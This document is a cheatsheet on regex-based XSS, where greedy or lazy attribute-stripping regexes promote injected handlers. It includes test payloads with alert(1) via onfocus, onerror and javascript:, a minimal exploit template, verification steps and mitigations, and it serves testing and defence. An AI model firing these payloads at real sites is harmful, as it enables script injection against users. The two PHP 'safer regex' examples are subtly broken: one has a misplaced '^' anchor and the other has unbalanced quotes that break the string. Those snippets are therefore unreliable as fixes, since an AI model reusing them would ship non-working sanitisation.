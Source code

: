 ### Regex XSS (REGEXSS) Cheatsheet

Quick reference for spotting and testing regex-based HTML breakage that can lead to XSS. Inspired by Stealthcopter’s write-up: [REGEXSS: How .* Turned Into over $6k in Bounties](https://sec.stealthcopter.com/regexss/#).

---

## Red-flag regex shapes
- `<attr>\s*=\s*".*?"` or `<attr>\s*=\s*'.*?'`
- `data-[\w-]+\s*=\s*["'][^"']*["']`
- `itemprop\=\"(.*?)\"` (real-world example)
- Any `String.replace(/.../g, '')` or `preg_replace('/.../', '', $content)` that targets HTML attributes with greedy tokens: `.*`, `.*?`, `[^"']*`.

Notes
- Lazy quantifier `.*?` still crosses attribute and sometimes element boundaries in messy HTML.
- Mixed single/double quotes increase exploitability.

---

## Test payloads (attribute shift)
- Start shift
  - Input: `<a href="attribute=" title="javascript:alert(1)">t</a>`
  - Goal: Replacement begins inside `href` value and ends at next quote, promoting `javascript:`.

- End shift (mixed quotes)
  - Input: `<a title='attribute="' href="new title' onfocus=alert(1) x='y'">t</a>`
  - Goal: Mixed quotes extend match; `onfocus` becomes active attr.

- Cross-element/content (last resort)
  - Input: `<img src='attribute="">"x' onerror="alert(1)">`
  - Goal: Leave `onerror` active while collapsing preceding value.

See `XSS/wordlists/*regexss*` for ready-to-copy variants.

---

## Verification steps
1) Ensure regex runs after sanitizer. If before, exploit may fail or become harder.
2) Observe HTML diff pre/post replacement. Look for attribute promotion or broken quoting.
3) Trigger via focus/click/load as needed (`tabindex=1`, `autofocus`).

---

## Safe fixes
- Replace regex HTML surgery with a parser (`DOMParser`, `DOMDocument`, `WP_HTML_Tag_Processor`).
- If you must use regex, target exact attributes and avoid greedy classes; normalize quotes first.

---

## Minimal exploit proof template
Input:
```
<a href='https://example.test/?attr="' title="' onfocus=alert(1) tabindex=1 x=1">link</a>
```
Vulnerable replacement:
```
preg_replace('/attr\=".*?"/', '', $content);
```
After:
```
<a href='https://example.test/?' onfocus=alert(1) tabindex=1 x=1>link</a>
```

Reference: [Stealthcopter’s article](https://sec.stealthcopter.com/regexss/#)


---

## Clarifications and caveats
1) Lazy still crosses boundaries if started inside a value: where the match begins is critical. If the engine starts matching inside an attribute value, a lazy `.*?` will still stop at the next quote, which may be the start of the next attribute value.
2) Sanitiser order matters: full exploitation typically requires the greedy regex to run after sanitisation/normalisation. If the regex runs first and a robust sanitizer runs after, the promoted attribute may be removed.
3) Context sensitivity: `on*` attributes (onerror/onfocus/onclick) are highest risk; `javascript:` in `href` often needs a user interaction unless combined with other behaviours.
4) Regex can be acceptable for tiny, well-defined tasks only when strictly constrained. Prefer parsers wherever possible.

---

## Safer regex patterns (last resort)
If you cannot use a parser, reduce risk with conservative patterns. These do not guarantee safety and assume reasonably well‑formed HTML.

Normalize quotes first (recommended): convert all attribute quotes to a single style to reduce mixed-quote abuse.

Constrain to quoted values without crossing quotes (PHP/PCRE example):
```php
// matches attr="...no quotes inside..." (single line)
$re = '/\battr\s*=\s*([\'\"])^[^\'\"]*\1/i';
$content = preg_replace($re, '', $content);
```

Be exact about allowed characters (e.g., conservative URL attr):
```php
// safer for URLs: allow only conservative URL characters
$re = '/\bhref\s*=\s*([\'\"])'[A-Za-z0-9\-._~:\/?#\[\]@!$&'()*+,;=%]*'\1/i';
```

Do not attempt to remove arbitrary attributes with a greedy expression like `attribute=".*?"`.

---

## Quick testing checklist
- Confirm whether quotes are normalised (single→double) or mixed; mixed enables easier exploitation.
- Determine whether the vulnerable replacement runs before or after sanitisation.
- Try start‑shift and mixed‑quote end‑shift payloads; add `tabindex=1`, `autofocus`, `onfocus`/`onerror` to trigger.
- View pre/post HTML diff and confirm attribute promotion or broken quoting.

---

## Extra mitigations
- Apply a strict Content Security Policy (CSP) as defense‑in‑depth to reduce impact of inline handlers or `javascript:` URLs.
- Use well‑maintained sanitizers/parsers (DOMPurify, DOMParser, DOMDocument, WP_HTML_Tag_Processor) instead of regex HTML surgery.

